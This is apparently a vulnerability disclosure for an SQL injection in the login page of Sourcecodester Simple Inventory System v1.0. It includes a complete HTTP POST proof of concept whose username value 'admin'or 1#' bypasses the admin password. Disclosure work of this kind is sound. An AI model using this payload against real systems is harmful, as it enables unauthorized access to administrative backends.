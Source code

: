 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：login.php

injection parameter:$_POST['username']

#### 1.Vulnerability analysis

As shown in the figure below, in login.php, after the username parameter is passed in through post, it is directly spliced into the SQL query statement without any security filtering, thus leading to the occurrence of SQL injection vulnerabilities. We can inject query statements through universal passwords to log in to the backend without the need for an admin password.

![image-20240517155805194](SourceCodester Simple Inventory System Sql Inject-1.assets/image-20240517155805194.png)

#### 2.Vulnerability verification and exploit

The POC is as follows.

```
POST /login.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 38
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

username=admin'or%201#&password=1&submit=Login
```

![image-20240517160321056](SourceCodester Simple Inventory System Sql Inject-1.assets/image-20240517160321056.png)

It is possible to enter the background without the correct password of admin.